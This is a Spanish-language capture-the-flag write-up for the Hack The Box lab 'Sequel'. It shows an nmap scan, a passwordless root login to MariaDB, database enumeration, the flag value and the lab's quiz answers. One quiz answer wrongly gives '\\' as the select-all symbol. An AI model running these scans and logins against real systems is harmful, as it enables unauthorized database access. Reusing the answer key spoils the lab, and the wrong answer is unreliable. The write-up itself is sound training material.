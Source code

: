 ```yaml
---
title: HTB - Sequel
date: 2022-06-26
categories: [Hack The Box, Starting Point]
tag: [Web, Sql, Starting Point - Tier 2]
img_path: /assets/img/htb/sequel
image:
   path: sequel.png
   width: 267
   height: 144
---
```

<h2 style="color:#74b4f4">Escaneo</h2>
---
Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap {target ip} -sV -v
```

Resultado del escaneo:

```console
Initiating NSE at 22:08
Completed NSE at 22:08, 0.00s elapsed
Nmap scan report for 10.129.93.192
Host is up (0.43s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 121
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, SupportsTransactions, FoundRows, DontAllowDatabaseTableColumn, SupportsCompression, Speaks41ProtocolOld, Support41Auth, LongColumnFlag, InteractiveClient, ConnectWithDatabase, ODBCClient, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, SupportsLoadDataLocal, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: Q2A2spXHAK7oKfCZysV6
|_  Auth Plugin Name: mysql_native_password
|_sslv2: ERROR: Script execution failed (use -d to debug)

NSE: Script Post-scanning.
Initiating NSE at 22:08
Completed NSE at 22:08, 0.00s elapsed
Initiating NSE at 22:08
Completed NSE at 22:08, 0.00s elapsed
Initiating NSE at 22:08
Completed NSE at 22:08, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.05 seconds
```

Solo hay un puerto abierto corriendo <b style="color:#800000">MySQL</b> especificamente <b style="color:#800000">5.5.5-10.3.27-MariaDB-0+deb10u1</b>. Podemos intentar conectarnos al servicio en el puerto <b style="color:#800000">3306</b> con mysql utilizando el usuario `root` para que no sea necesario proporcionar una contraseña.

```console
mysql -h {target ip} -u root -P 3306
```

```console
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 129
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Mostramos todas las bases de datos disponibles con el siguiente comando:

```sql
SHOW databases;
```

```console
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```

Seleccionamos <b style="color:#800000">htb</b> y mostramos todas sus tablas:

```sql
USE htb;
SHOW tables;
```

```console
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```

Tenemos dos tablas: config y users. Estas pueden verificarse secuencialmente por su contenido:

```sql
SELECT * FROM {nombre de la tabla};
```

Una vez que consultamos el contenido de la tabla de configuración se muestra claramente el valor de la flag.

```console
 +----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
```

<h2 style="color:#74b4f4">Preguntas</h2>
---
1. ¿Qué significa el acrónimo SQL?

	<b style="color:#8B2F97">Structured Query Language</b>
	
2. Durante nuestro escaneo, ¿qué puerto con mysql encontramos?
	
	<b style="color:#8B2F97">3306</b>

3. ¿Qué versión de MySQL desarrollada por la comunidad está ejecutando el objetivo?
	
	<b style="color:#8B2F97">MariaDB</b>

4. ¿Qué interruptor necesitamos usar para especificar un nombre de usuario de inicio de sesión para el servicio MySQL?
	
	<b style="color:#8B2F97">-u</b>
	
5. ¿Qué nombre de usuario nos permite iniciar sesión en MariaDB sin proporcionar una contraseña?
	
	<b style="color:#8B2F97">root</b>

6. ¿Qué símbolo podemos usar para especificar dentro de la consulta que queremos mostrar todo dentro de una tabla?
	
	<b style="color:#8B2F97">\\</b>

7. ¿Con qué símbolo necesitamos terminar cada consulta?
	
	<b style="color:#8B2F97">;</b>
	
**Root Flag:** <b style="color:#FF8B00">7b4bec00d1a39e3dd4e021ec3d915da8</b>
	
![](Pasted image 20220426221937.png)
